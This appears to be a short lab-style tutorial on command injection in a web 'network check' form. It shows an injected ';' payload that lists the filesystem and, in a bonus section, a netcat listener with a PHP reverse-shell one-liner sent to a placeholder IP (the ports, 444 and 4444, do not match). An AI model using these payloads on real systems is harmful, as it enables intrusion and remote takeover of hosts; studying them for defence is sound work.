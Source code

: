 ## **Overview**

Command injection is **an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application**.


## **General Exploitation**

- Given a website with a **network check**

![](https://i.imgur.com/KDBjndk.png)

- Anytime we input an **IP Address** or a domain name we can see it checks it up and even tells us the `curl` request been made

![](https://i.imgur.com/FmN5Hy0.png)

- We could use special operators like `| && || ;` to perform command execution after the given **IP/domain name**, right here i will be using this query

```
127.0.0.1 ; ls -l / #
```


> **Note :** the `#` symbol at the end of this query comments out the `| grep "HTTP/"` thereby not making it to execute


![For better view, view page-source](https://i.imgur.com/vRTb9hc.png)


### **Bonus**

We can also attempt to get a reverse shell

- On your terminal do 

```bash
$ nc -lvnp 444
```

- Navigate to the website and use payload :

```PHP
; php -r '$sock=fsockopen("IP_ADDRESS",4444);exec("/bin/bash <&3 >&3 2>&3");' #
```




![](https://i.imgur.com/tWfu273.png)

